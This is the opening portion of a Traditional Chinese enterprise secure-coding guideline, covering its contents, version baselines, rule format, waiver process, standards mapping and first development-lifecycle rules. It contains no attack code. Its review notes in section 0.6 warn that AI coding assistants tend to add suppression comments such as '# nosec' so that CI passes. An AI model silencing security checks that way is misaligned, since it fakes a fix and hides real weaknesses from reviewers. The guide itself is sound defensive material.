






+++
date = '2025-10-31T00:00:00+08:00'
draft = false
title = '安全程式碼指引'
tags = ['指引', '設計開發']
categories = ['指引']
+++

# 安全程式碼指引

> **企業標準技術白皮書｜版本 v3.0｜2026-10-08**
>
> 適用範圍：以 Java／Spring Boot、Python、Node.js 為後端，以 Vue、Angular、React、HTML 與 Tailwind CSS 為前端，以 PostgreSQL、Oracle、SQL Server、Db2 為資料庫（含預存程序）的企業應用系統。本指引規範「寫程式時」必須做到的安全要求：每一條規則都說明要寫成什麼樣子、附有正確與錯誤的範例，並說明審查者要用什麼工具或方法確認。
>
> v3.0 全面改寫 v2.0：依 OWASP Top 10:2025、OWASP ASVS 5.0、OWASP API Security Top 10 2023、OWASP Top 10 for LLM Applications 2025、CWE Top 25（2025）、NIST SP 800-218 SSDF、NIST SP 800-63B-4、ISO/IEC 27002:2022 等國際標準重新組織內容。每條規則都附有範例與「驗證方式」，每節結尾都有「🔍 審查與驗證」，讓審查者能判斷 AI 或同事產出的程式碼是否安全。範例均經工具實測（見 [附錄 F](#附錄-f-修訂紀錄與查證紀錄)）。威脅建模與安全架構請見 [架構設計指引]() 與 [系統設計指引]()，安全測試的規劃請見 [測試與品質保證指引]()；本文聚焦在「程式碼層級」。

## 目錄

<!-- TOC-AUTO-BEGIN -->

- [0. 文件資訊](#0-文件資訊)
  - [0.1 文件目的與讀者](#01-文件目的與讀者)
  - [0.2 技術基準版本](#02-技術基準版本)
  - [0.3 規範等級與規則格式](#03-規範等級與規則格式)
  - [0.4 與其他指引的關係](#04-與其他指引的關係)
  - [0.5 如何閱讀本指引](#05-如何閱讀本指引)
  - [0.6 例外與豁免流程](#06-例外與豁免流程)
- [1. 安全開發生命週期與國際標準](#1-安全開發生命週期與國際標準)
  - [1.1 國際標準與本指引的對應](#11-國際標準與本指引的對應)
  - [1.2 安全開發流程：在哪裡發現問題](#12-安全開發流程在哪裡發現問題)
  - [1.3 依風險選定 ASVS 等級](#13-依風險選定-asvs-等級)
  - [1.4 AI 輔助開發的責任](#14-ai-輔助開發的責任)
- [2. 通用安全原則](#2-通用安全原則)
  - [2.1 最小權限與預設拒絕](#21-最小權限與預設拒絕)
  - [2.2 輸入驗證](#22-輸入驗證)
  - [2.3 輸出編碼](#23-輸出編碼)
  - [2.4 失敗安全與資源上限](#24-失敗安全與資源上限)
  - [2.5 業務邏輯與並行安全](#25-業務邏輯與並行安全)
- [3. 身分驗證與工作階段](#3-身分驗證與工作階段)
  - [3.1 密碼儲存與密碼政策](#31-密碼儲存與密碼政策)
  - [3.2 多因子驗證與通行金鑰](#32-多因子驗證與通行金鑰)
  - [3.3 工作階段（Session）管理](#33-工作階段session管理)
  - [3.4 權杖、JWT 與 OAuth 2.0](#34-權杖jwt-與-oauth-20)
  - [3.5 帳號復原與重設密碼](#35-帳號復原與重設密碼)
- [4. 存取控制](#4-存取控制)
  - [4.1 物件層級授權](#41-物件層級授權)
  - [4.2 功能層級與屬性層級授權](#42-功能層級與屬性層級授權)
  - [4.3 多租戶隔離](#43-多租戶隔離)
  - [4.4 授權測試](#44-授權測試)
- [5. 密碼學與秘密管理](#5-密碼學與秘密管理)
  - [5.1 演算法與模式的選擇](#51-演算法與模式的選擇)
  - [5.2 安全亂數](#52-安全亂數)
  - [5.3 金鑰與秘密管理](#53-金鑰與秘密管理)
  - [5.4 傳輸層安全（TLS）](#54-傳輸層安全tls)
  - [5.5 密碼敏捷性與後量子遷移](#55-密碼敏捷性與後量子遷移)
- [6. Java／Spring Boot](#6-javaspring-boot)
  - [6.1 命令、運算式與 LDAP 注入](#61-命令運算式與-ldap-注入)
  - [6.2 不安全的反序列化](#62-不安全的反序列化)
  - [6.3 XML 外部實體（XXE）](#63-xml-外部實體xxe)
  - [6.4 Spring Boot 的安全設定](#64-spring-boot-的安全設定)
- [7. Python](#7-python)
  - [7.1 命令執行與動態程式碼](#71-命令執行與動態程式碼)
  - [7.2 反序列化、XML 與正規表示式](#72-反序列化xml-與正規表示式)
  - [7.3 Web 框架與網路存取](#73-web-框架與網路存取)
- [8. JavaScript／TypeScript／Node.js](#8-javascripttypescriptnodejs)
  - [8.1 命令、動態程式碼與路徑](#81-命令動態程式碼與路徑)
  - [8.2 原型污染與正規表示式阻斷服務](#82-原型污染與正規表示式阻斷服務)
  - [8.3 TypeScript 的型別不是驗證](#83-typescript-的型別不是驗證)
  - [8.4 Node.js 伺服器設定](#84-nodejs-伺服器設定)
- [9. 前端框架與瀏覽器安全](#9-前端框架與瀏覽器安全)
  - [9.1 HTML 與瀏覽器安全機制](#91-html-與瀏覽器安全機制)
  - [9.2 Vue](#92-vue)
  - [9.3 Angular](#93-angular)
  - [9.4 React](#94-react)
  - [9.5 Tailwind CSS](#95-tailwind-css)
- [10. SQL 與資料存取](#10-sql-與資料存取)
  - [10.1 參數化查詢](#101-參數化查詢)
  - [10.2 識別字、排序與 LIKE](#102-識別字排序與-like)
  - [10.3 查詢資源與其他查詢語言](#103-查詢資源與其他查詢語言)
- [11. 預存程序](#11-預存程序)
  - [11.1 預存程序中的動態 SQL](#111-預存程序中的動態-sql)
  - [11.2 執行權限與最小權限](#112-執行權限與最小權限)
  - [11.3 錯誤處理、稽核與危險功能](#113-錯誤處理稽核與危險功能)
- [12. API 安全](#12-api-安全)
  - [12.1 OWASP API Security Top 10 對照](#121-owasp-api-security-top-10-對照)
  - [12.2 輸入、輸出與錯誤格式](#122-輸入輸出與錯誤格式)
  - [12.3 敏感業務流程與第三方 API](#123-敏感業務流程與第三方-api)
  - [12.4 速率限制](#124-速率限制)
  - [12.5 GraphQL 與 WebSocket](#125-graphql-與-websocket)
- [13. 檔案、壓縮檔與外部資源](#13-檔案壓縮檔與外部資源)
  - [13.1 檔案上傳](#131-檔案上傳)
  - [13.2 路徑穿越與壓縮檔](#132-路徑穿越與壓縮檔)
  - [13.3 伺服器端請求偽造（SSRF）](#133-伺服器端請求偽造ssrf)
- [14. 安全記錄與錯誤處理](#14-安全記錄與錯誤處理)
  - [14.1 安全事件記錄](#141-安全事件記錄)
  - [14.2 例外處理與失敗安全](#142-例外處理與失敗安全)
- [15. 相依套件與軟體供應鏈](#15-相依套件與軟體供應鏈)
  - [15.1 相依套件的弱點與鎖定](#151-相依套件的弱點與鎖定)
  - [15.2 新增相依套件與安裝腳本](#152-新增相依套件與安裝腳本)
  - [15.3 CI/CD 管線與建置產物](#153-cicd-管線與建置產物)
- [16. AI／LLM 應用與 AI 產生的程式碼](#16-aillm-應用與-ai-產生的程式碼)
  - [16.1 LLM 應用的安全](#161-llm-應用的安全)
  - [16.2 AI 程式碼助理與代理的使用](#162-ai-程式碼助理與代理的使用)
- [17. 設定與部署相關的程式碼](#17-設定與部署相關的程式碼)
  - [17.1 HTTP 安全標頭](#171-http-安全標頭)
  - [17.2 環境設定與預設值](#172-環境設定與預設值)
  - [17.3 容器與 Kubernetes 清單](#173-容器與-kubernetes-清單)
- [18. 國際標準對照](#18-國際標準對照)
  - [18.1 OWASP Top 10:2025](#181-owasp-top-102025)
  - [18.2 OWASP ASVS 5.0](#182-owasp-asvs-50)
  - [18.3 CWE Top 25（2025）](#183-cwe-top-252025)
  - [18.4 其他標準與法規](#184-其他標準與法規)
- [19. 常見錯誤與反例](#19-常見錯誤與反例)
  - [19.1 密碼與憑證處理錯誤](#191-密碼與憑證處理錯誤)
  - [19.2 SQL 查詢錯誤](#192-sql-查詢錯誤)
  - [19.3 檔案上傳錯誤](#193-檔案上傳錯誤)
  - [19.4 前端 XSS 錯誤](#194-前端-xss-錯誤)
  - [19.5 權限控制錯誤](#195-權限控制錯誤)
  - [19.6 API 設計錯誤](#196-api-設計錯誤)
  - [19.7 配置錯誤](#197-配置錯誤)
- [20. 審查流程與檢查清單](#20-審查流程與檢查清單)
  - [20.1 每日開發檢查項目](#201-每日開發檢查項目)
  - [20.2 Pull Request 檢查項目](#202-pull-request-檢查項目)
  - [20.3 部署前檢查項目](#203-部署前檢查項目)
  - [20.4 AI 產出的審查流程](#204-ai-產出的審查流程)
  - [20.5 弱點與資安事件的開發者責任](#205-弱點與資安事件的開發者責任)
- [附錄 A 規則總表](#附錄-a-規則總表)
  - [A.1 依領域統計](#a1-依領域統計)
  - [A.2 驗證方式與範例覆蓋](#a2-驗證方式與範例覆蓋)
  - [A.3 規則清單](#a3-規則清單)
- [附錄 B 工具設定](#附錄-b-工具設定)
  - [B.1 Semgrep 自訂規則](#b1-semgrep-自訂規則)
  - [B.2 SpotBugs＋FindSecBugs（Maven）](#b2-spotbugsfindsecbugsmaven)
  - [B.3 ESLint（TypeScript、React、Vue）](#b3-eslinttypescriptreactvue)
  - [B.4 Bandit 與 Ruff（Python）](#b4-bandit-與-ruffpython)
  - [B.5 Spectral（OpenAPI 契約）](#b5-spectralopenapi-契約)
  - [B.6 GitHub Actions、容器與秘密掃描](#b6-github-actions容器與秘密掃描)
  - [B.7 規則與工具對照](#b7-規則與工具對照)
- [附錄 C 術語表](#附錄-c-術語表)
- [附錄 D 參考資料](#附錄-d-參考資料)
  - [D.1 國際標準與框架](#d1-國際標準與框架)
  - [D.2 語言與框架的官方安全文件](#d2-語言與框架的官方安全文件)
  - [D.3 工具](#d3-工具)
  - [D.4 學習資源](#d4-學習資源)
  - [D.5 公司內部資源](#d5-公司內部資源)
- [附錄 E v2.0 與 v3.0 章節對照](#附錄-e-v20-與-v30-章節對照)
- [附錄 F 修訂紀錄與查證紀錄](#附錄-f-修訂紀錄與查證紀錄)
  - [F.1 v2.0 的錯誤與修正](#f1-v20-的錯誤與修正)
  - [F.2 範例與工具的實測紀錄](#f2-範例與工具的實測紀錄)
  - [F.3 待追蹤事項](#f3-待追蹤事項)
  - [F.4 版本紀錄](#f4-版本紀錄)

<!-- TOC-AUTO-END -->

---

## 0. 文件資訊

### 0.1 文件目的與讀者

撰寫安全的程式碼是每位開發者的基本職責。資安事件的根源多半不是高深的攻擊手法，而是可以預防的寫作錯誤：字串串接的 SQL、沒有檢查擁有者的查詢、寫死在程式碼裡的金鑰、直接輸出到頁面的使用者輸入。2025 年版 CWE Top 25 的前四名依序是跨站腳本（CWE-79）、SQL 注入（CWE-89）、跨站請求偽造（CWE-352）與缺少授權檢查（CWE-862），全部都能在寫程式與審查程式時發現並避免。

本指引有三個目的：

1. **定義標準**：寫程式時必須做到的安全要求，以可以檢查的規則呈現。
2. **教會做法**：每條規則都附有正確與錯誤的範例，並說明背後的理由，讓第一次接觸的開發者也能照著做。
3. **讓人能審查 AI 產出**：AI 程式碼助理寫出的程式碼經常「能跑但不安全」。每節的「🔍 審查與驗證」列出自動檢查方式、人工審查問題與 AI 常見錯誤，讓審查者有依據判斷。

| 讀者 | 主要用途 | 建議閱讀章節 |
| --- | --- | --- |
| 後端工程師（Java、Python、Node.js） | 依規則撰寫與自我檢查 | 第 2–8 章、第 10–14 章 |
| 前端工程師（Vue、Angular、React） | 防止 XSS、處理權杖與瀏覽器安全機制 | 第 2、3、8、9、12 章 |
| 資料庫工程師、預存程序開發者 | 動態 SQL、權限模型 | 第 10、11 章 |
| 技術主管、程式碼審查者 | 審查 Pull Request、審查 AI 產出 | 第 1、20 章、附錄 A，以及各節「🔍 審查與驗證」 |
| DevSecOps、平台工程師 | 在 CI 設定工具、管理供應鏈 | 第 15、17 章、附錄 B |
| 資安人員、稽核人員 | 對照國際標準與法規、抽查 | 第 1、18 章、附錄 D |
| 使用 AI 程式碼助理的人 | 撰寫提示、審查 AI 產出 | 第 16 章、第 20.4 節 |

### 0.2 技術基準版本

本指引的範例與規則以下列版本為準（查證日期 2026-10-08）。版本更新時以各專案的相依管理檔為準，但不得低於「最低版本」欄；低於最低版本的元件通常已不再收到安全修補。

| 類別 | 技術 | 基準版本 | 最低版本 | 備註 |
| --- | --- | --- | --- | --- |
| 語言 | Java（OpenJDK） | 25 LTS | 21 LTS | 範例使用 record、pattern matching |
| 框架 | Spring Boot | 4.1.1 | 3.5.x | 3.5 的開源支援已於 2026-06 結束，應儘速升級 |
| 框架 | Spring Framework／Spring Security | 7.0.9／7.1.1 | 6.2.x／6.5.x | Security 7 移除 `and()` 串接與 `WebSecurityConfigurerAdapter` |
| 序列化 | Jackson | 3.1（Boot 4.1 管理） | 2.19 | Jackson 3 的套件名稱為 `tools.jackson.*` |
| 語言 | Python | 3.14 | 3.12 | |
| 執行環境 | Node.js | 24 LTS | 22 LTS | Node.js 26 預定 2026-10-28 進入 LTS |
| 語言 | TypeScript | 7.0 | 5.9 | 型別只存在編譯期，不能取代執行期驗證，見 8.3 |
| 前端 | Vue／Angular／React | 3.5／22／19.3 | 3.4／20／19.2 | React 19.0–19.2.0 的 Server Components 有 CVE-2025-55182，見 9.4 |
| 前端 | Tailwind CSS | 4.3 | 3.4 | |
| 前端函式庫 | DOMPurify | 3.4 | 3.2 | |
| 資料庫 | PostgreSQL／Oracle／SQL Server／Db2 | 18.6／AI Database 26ai（Free 23.26.3）／2025 CU9／12.1.5 | 15／19c／2019／11.5 | 預存程序範例四種方言都經實測，見第 11 章 |
| 靜態分析 | Semgrep／SpotBugs＋FindSecBugs／Bandit／ESLint | 1.180／4.10＋1.14／1.9／10 | — | 設定見附錄 B |
| 供應鏈 | OWASP Dependency-Check／OSV-Scanner／Gitleaks／CycloneDX Maven Plugin | 13.0／2.6／8.30／2.9 | — | |
| 安全標準 | OWASP Top 10／API Security Top 10／ASVS／LLM Top 10 | 2025／2023／5.0.0／2025 | — | 對照見第 18 章 |

### 0.3 規範等級與規則格式

本文規則採用 [RFC 2119](https://www.rfc-editor.org/rfc/rfc2119) 與 [RFC 8174](https://www.rfc-editor.org/rfc/rfc8174) 的語意：

| 等級 | 英文 | 意義 | 程式碼審查處理 |
| --- | --- | --- | --- |
| **必須** | MUST | 不遵守會直接造成可被利用的弱點 | 不得合併；如需例外必須走 0.6 豁免流程 |
| **應該** | SHOULD | 業界共識的最佳實務，除非有充分理由 | 不遵守時必須在 Pull Request 說明理由 |
| **可以** | MAY | 建議做法，依系統風險等級選用 | 不阻擋 |
| **不應該** | SHOULD NOT | 通常是錯誤的做法，除非有充分理由 | 採用時必須在 Pull Request 說明理由與替代控制 |

每條規則都有編號，格式為 `SCG-<領域>-<三位數序號>`（SCG = Secure Coding Guideline）。開頭的 `SCG` 用來和架構設計指引（如 `SEC-001`）、系統設計指引（如 `SD-SEC-009`）的規則區分。編號一經發布不會重編，新增規則使用該領域尚未使用的號碼。

| 前綴 | 領域 | 章 | 前綴 | 領域 | 章 |
| --- | --- | --- | --- | --- | --- |
| `SCG-SDL` | 安全開發生命週期 | 1 | `SCG-SQL` | SQL 與資料存取 | 10 |
| `SCG-GEN` | 通用安全原則 | 2 | `SCG-SP` | 預存程序 | 11 |
| `SCG-AUTH` | 身分驗證與工作階段 | 3 | `SCG-API` | API 安全 | 12 |
| `SCG-ACL` | 存取控制 | 4 | `SCG-IO` | 檔案、序列化與外部資源 | 13 |
| `SCG-CRY` | 密碼學與秘密管理 | 5 | `SCG-LOG` | 安全記錄與錯誤處理 | 14 |
| `SCG-JAVA` | Java／Spring Boot | 6 | `SCG-SUP` | 相依套件與供應鏈 | 15 |
| `SCG-PY` | Python | 7 | `SCG-AI` | AI／LLM 應用與 AI 產生的程式碼 | 16 |
| `SCG-JS` | JavaScript／TypeScript／Node.js | 8 | `SCG-CFG` | 設定與部署 | 17 |
| `SCG-FE` | 前端框架與瀏覽器 | 9 | `SCG-REV` | 審查流程 | 20 |

**驗證方式欄位：** 每張規則表的最後一欄說明「怎麼確認程式碼符合這條規則」。審查者應先看這一欄，再決定要花多少心力人工檢查。

| 圖示 | 意義 | 範例 | 審查者該做什麼 |
| --- | --- | --- | --- |
| 🤖 | 工具可自動檢查 | 🤖 Semgrep、🤖 FindSecBugs `SQL_INJECTION_JDBC`、🤖 Bandit `B602` | 確認 CI 有執行該工具與規則，且沒有被停用或以註解略過 |
| 🧪 | 需要以測試證明 | 🧪 單元測試、🧪 MockMvc 授權測試 | 確認有對應的測試，而且規則被違反時測試會失敗 |
| 👁 | 只能由人判斷 | 👁 程式碼審查 | 依該節「🔍 審查與驗證」的問題逐項確認 |

**範例標記：** 範例中以 `✅ <規則編號>` 標示符合規則的寫法，以 `❌ <規則編號>` 標示違規寫法。所有規則都至少出現在一個範例中（統計見 [附錄 A](#附錄-a-規則總表)）。標示「（片段：…）」的範例只截取重點，不是完整可編譯的程式。**❌ 範例只供教學，請勿複製到正式程式碼。**

### 0.4 與其他指引的關係

本指引處理「程式碼層級」的安全。下列主題另有專門指引，本文只列出寫程式時必須做到的部分並連結過去：

| 主題 | 指引 | 本文的分工 |
| --- | --- | --- |
| 威脅建模、安全架構、零信任、Web 安全標頭的架構決策 | [架構設計指引]() 第 11 章 | 本文只規範程式碼與框架設定 |
| 元件層級的安全設計（身分驗證、授權、秘密管理的設計） | [系統設計指引]() 第 11 章 | 本文是設計的實作規範 |
| 一般寫作規範（命名、例外處理、日誌格式） | [程式寫作指引]() | 該指引第 16 章摘要安全寫作要點，完整規則以本文為準 |
| 安全測試的規劃（SAST、DAST、滲透測試的時機與門檻） | [測試與品質保證指引]() 第 13 章 | 本文只規範每條規則的驗證方式 |
| 資料庫的權限、加密、資料列層級安全 | [資料庫設計指引]() 第 11 章 | 本文第 10、11 章規範 SQL 與預存程序的寫法 |
| 容器、Kubernetes、雲端與 CI/CD 平台的安全基準 | [架構設計指引]() 第 11.8、13 章 | 本文第 15、17 章只規範專案程式庫內的設定 |
| 事件回應、災難復原、法規遵循流程 | [軟體開發標準程序教學手冊]()、[系統設計指引]() 第 17 章 | 本文第 14 章只規範程式碼要留下的記錄 |
| 程式碼審查流程 | [code review 指引]() | 本文第 20 章提供安全審查的檢查清單 |

### 0.5 如何閱讀本指引

每一節都依相同的結構撰寫，閱讀與審查時可以直接跳到需要的部分：

1. **概念說明**：弱點的成因、攻擊者怎麼利用、防禦的原理。
2. **規則表**：編號、等級、規則內容、驗證方式。
3. **範例**：❌ 常見錯誤與 ✅ 正確寫法，範例中標註規則編號。
4. **🔍 審查與驗證**：自動檢查方式、人工審查問題、AI 常見錯誤。

第一次導入時，建議依下列順序進行：



### 0.6 例外與豁免流程

規則不可能涵蓋所有情境。專案無法遵守某條「必須」規則時，依下列流程申請豁免，**不得**以註解停用工具或直接忽略：

1. 在專案的安全例外清單（建議放在程式庫的 `SECURITY-EXCEPTIONS.md`）寫明豁免的規則編號、程式碼位置、原因、替代控制措施與到期日。
2. 由資安負責人或指定的技術主管核准，並記錄核准人與日期。
3. 工具的抑制註解（例如 `// nosemgrep`、`# nosec`、`@SuppressFBWarnings`）必須附上例外編號，讓審查者能追溯。
4. 到期前重新評估；到期未處理的例外視為弱點，依弱點修補時限處理。

```markdown
# SEC-EX-2026-007 豁免 SCG-SQL-003：報表模組以白名單組合排序欄位

- 狀態：approved（有效至 2027-03-31）
- 豁免規則：SCG-SQL-003 的工具告警（Semgrep 將字串組合的 ORDER BY 判定為可疑）
- 程式碼位置：report-service/src/main/java/com/example/report/ReportQuery.java#L42
- 原因：排序欄位只能來自 SortColumn 列舉的白名單，不含任何使用者輸入的字串。
- 替代控制：ReportQueryTest 驗證非白名單欄位會被拒絕；抑制註解只放在單一行。
- 核准：資安負責人 王小明，2026-10-08
```

```java
// ✅ 抑制註解必須附上例外編號，讓審查者能追溯（片段：抑制註解寫法）
String sql = "SELECT id, name FROM report_item ORDER BY " + column.sqlName(); // nosemgrep: SEC-EX-2026-007
```

#### 🔍 0.6 審查與驗證

- **自動檢查：** 以 `git grep -nE "nosemgrep|# nosec|@SuppressFBWarnings|eslint-disable"` 列出所有抑制註解，確認每一筆都附有例外編號，且編號存在於 `SECURITY-EXCEPTIONS.md`。
- **人工審查問題：**
  1. 例外的「替代控制」是否真的存在，而且有測試保護？
  2. 抑制註解的範圍是否最小（單一行，而不是整個檔案或整個規則集）？
- **AI 常見錯誤：** AI 遇到工具告警時，常直接加上 `# nosec` 或 `// eslint-disable-next-line` 讓 CI 通過，而不是修正問題。看到新增的抑制註解，一律要求說明。

## 1. 安全開發生命週期與國際標準

### 1.1 國際標準與本指引的對應

安全程式碼不是一份清單，而是一組被國際標準反覆驗證過的做法。本指引的規則都能追溯到下列標準；稽核或客戶要求「符合某標準」時，可用第 18 章的對照表說明涵蓋範圍。

| 標準 | 版本與狀態 | 用途 | 本指引的使用方式 |
| --- | --- | --- | --- |
| [OWASP Top 10](https://top10.owasp.org/2025/) | 2025（2025-11 發布） | Web 應用程式十大風險，溝通用 | 各章規則對照 A01–A10，見 18.1 |
| [OWASP ASVS](https://owasp.org/www-project-application-security-verification-standard/) | 5.0.0（2025-05 發布） | 可驗證的安全需求，分 L1–L3 三級 | 專案依 1.3 選定等級；規則對照見 18.2 |
| [OWASP API Security Top 10](https://api-security.owasp.org/editions/2023/en/0x11-t10/) | 2023 | API 特有風險 | 第 12 章 |
| [OWASP Top 10 for LLM Applications](https://genai.owasp.org/llm-top-10/) | 2025 | 大型語言模型應用的風險 | 第 16 章 |
| [CWE Top 25](https://cwe.mitre.org/top25/) | 2025（2025-12 發布） | 最危險的軟體弱點，依真實 CVE 統計 | 規則對照見 18.3 |
| [NIST SP 800-218 SSDF](https://csrc.nist.gov/projects/ssdf) | 1.1（2022）；1.2 為草案（SP 800-218r1 ipd，2025-12） | 安全軟體開發框架（PO、PS、PW、RV 四組實務） | 本章流程對應 PW.4–PW.9、RV.1–RV.3 |
| [NIST SP 800-218A](https://csrc.nist.gov/pubs/sp/800/218/a/final) | 2024-07 | 生成式 AI 模型開發的 SSDF 補充 | 第 16 章 |
| [NIST SP 800-63B-4](https://pages.nist.gov/800-63-4/sp800-63b.html) | 2025-08 | 數位身分驗證（密碼、多因子、通行金鑰） | 第 3 章 |
| [ISO/IEC 27002:2022](https://www.iso.org/standard/75652.html) | 2022 | 資訊安全控制措施 | 8.25 安全開發生命週期、8.26 應用程式安全要求、8.28 安全程式碼撰寫、8.29 安全測試 |
| [PCI DSS](https://www.pcisecuritystandards.org/document_library/) | 4.0.1 | 支付卡產業資料安全標準 | 需求 6.2（安全開發）、6.4（Web 應用防護）、8（身分驗證） |
| [CISA Secure by Design](https://www.cisa.gov/securebydesign) | 2023 起持續更新 | 「預設安全」原則 | 第 2、17 章的預設值規則 |
| 資通安全管理法 | 2025-09-24 修正公布 | 公務機關與特定非公務機關的資安義務 | 委外開發須符合機關的資安要求，見第 20 章 |
| 個人資料保護法 | 2025-11-11 修正公布（施行日由行政院另定） | 個人資料的蒐集、處理、利用與外洩通報 | 第 5、14 章的遮罩與記錄規則；流程見系統設計指引第 17 章 |

> **OWASP Top 10:2025 的主要變化：** 新增 A03「軟體供應鏈失效」與 A10「例外狀況處理不當」；SSRF 併入 A01「存取控制失效」；「安全設定錯誤」由第 5 名升到第 2 名。本指引第 13.3 節（SSRF）、第 14 章（錯誤處理）與第 15 章（供應鏈）即對應這些變化。

### 1.2 安全開發流程：在哪裡發現問題

越早發現的弱點，修正成本越低。本指引的規則依「最早能在哪裡被發現」安排驗證方式：



| 階段 | 對應 SSDF 實務 | 本指引的工具與規則 |
| --- | --- | --- |
| 撰寫程式 | PW.5 依安全程式碼實務撰寫 | 第 2–14 章的規則；IDE 外掛 |
| 提交前 | PS.1 保護程式碼 | `SCG-SDL-003` Gitleaks |
| Pull Request | PW.7 審查程式碼 | `SCG-SDL-004`、第 20 章檢查清單 |
| CI | PW.7、PW.8 分析與測試 | `SCG-SDL-002` SAST、SCA；各規則的 🧪 測試 |
| 發布 | PS.2、PS.3 驗證與保存發布物 | 第 15 章 SBOM、簽章 |
| 上線後 | RV.1–RV.3 弱點回應 | `SCG-SDL-005` 修補時限、`SCG-SDL-008` 通報管道 |

### 1.3 依風險選定 ASVS 等級

ASVS 5.0 把需求分成三級。等級決定了哪些「應該」規則在專案中提升為「必須」，也決定審查與測試的深度。

| 等級 | 適用系統 | 典型範例 | 本指引的影響 |
| --- | --- | --- | --- |
| L1 | 對外公開、處理低敏感資料 | 官網、活動報名 | 所有「必須」規則 |
| L2 | 處理個人資料、內部業務資料（**多數企業系統的預設**） | 會員系統、ERP、內部入口 | 所有「必須」規則＋所有「應該」規則 |
| L3 | 處理金融交易、醫療資料、關鍵基礎設施 | 網路銀行、支付、醫療紀錄 | L2 ＋ 多因子強制、HSM 金鑰、滲透測試、威脅模型 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-SDL-001` | 必須 | 每個系統必須依處理資料的敏感度選定 ASVS 等級（L1／L2／L3），並記錄在程式庫的 `SECURITY.md`；處理個人資料的系統至少為 L2 | 👁 程式碼審查（`SECURITY.md` 存在且有等級） |
| `SCG-SDL-002` | 必須 | CI 必須在每個 Pull Request 執行靜態分析（SAST）、相依套件弱點掃描（SCA）與秘密掃描；高風險以上的發現必須阻擋合併 | 🤖 CI 設定檢查（actionlint＋分支保護規則） |
| `SCG-SDL-003` | 必須 | 開發者的本機必須安裝 pre-commit 秘密掃描，避免密碼、金鑰、權杖進入 Git 歷史 | 🤖 Gitleaks pre-commit；🤖 CI 再掃一次 |
| `SCG-SDL-004` | 必須 | 修改身分驗證、授權、加密、輸入處理、檔案處理、反序列化等安全敏感程式碼時，必須由第二人審查，並以 CODEOWNERS 指定具備資安能力的審查者 | 🤖 CODEOWNERS＋分支保護；👁 程式碼審查 |
| `SCG-SDL-005` | 必須 | 已知弱點必須依嚴重度在時限內修補：Critical 15 天、High 30 天、Medium 90 天（或依主管機關與合約更嚴格的要求）；無法修補時走 0.6 例外流程 | 🤖 SCA 報表追蹤 |
| `SCG-SDL-006` | 應該 | 每個安全缺陷的修正都應附上回歸測試，測試在修正前會失敗、修正後通過 | 🧪 回歸測試 |
| `SCG-SDL-008` | 應該 | 程式庫應提供 `SECURITY.md`，說明支援的版本與弱點通報管道，並承諾回應時限 | 🤖 OpenSSF Scorecard `Security-Policy` |

```markdown
